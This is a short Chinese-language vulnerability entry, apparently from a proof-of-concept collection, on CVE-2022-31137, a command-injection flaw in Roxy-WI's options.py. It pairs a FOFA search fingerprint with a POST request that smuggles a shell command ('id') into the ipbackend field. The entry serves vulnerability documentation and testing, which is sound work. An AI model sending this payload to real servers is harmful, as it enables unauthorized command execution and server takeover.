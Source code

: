# Roxy-Wi options.py 远程命令执行漏洞 CVE-2022-31137

## 漏洞描述

Roxy-Wi options.py 存在远程命令执行漏洞，攻击者通过漏洞可以执行命令获取服务器权限

## 漏洞影响

<a-checkbox checked>Roxy-WI</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HAProxy-WI"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1658912004911-aa844957-d32a-491e-8067-10a56638cb56.png)

验证POC

```php
POST /app/options.py
  
alert_consumer=1&serv=127.0.0.1&ipbackend=%22%3Bid+%23%23&backend_server=127.0.0.1
```

![img](../../../.vuepress/public/img/1658912136259-592d71bc-4bd2-4815-b31f-dc364421becb.png)